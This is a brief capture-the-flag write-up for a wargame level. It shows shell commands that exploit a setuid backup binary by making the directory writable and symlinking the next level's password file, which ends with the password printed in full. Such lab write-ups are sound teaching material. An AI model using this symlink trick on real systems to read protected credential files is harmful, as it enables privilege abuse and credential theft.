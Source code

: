 # Search

```
$ ls -l
drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08

$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)

$ ./level08 ~level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

after analyzing the executable and doing some test to open ```home/users/level09/.pass```
we saw that there is a problem with the absolute path. so i 'll do a link :

```
$ chmod 777 .

$ ln -s /home/users/level09/.pass toto

$ ./level08 toto

$ cat backups/toto 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
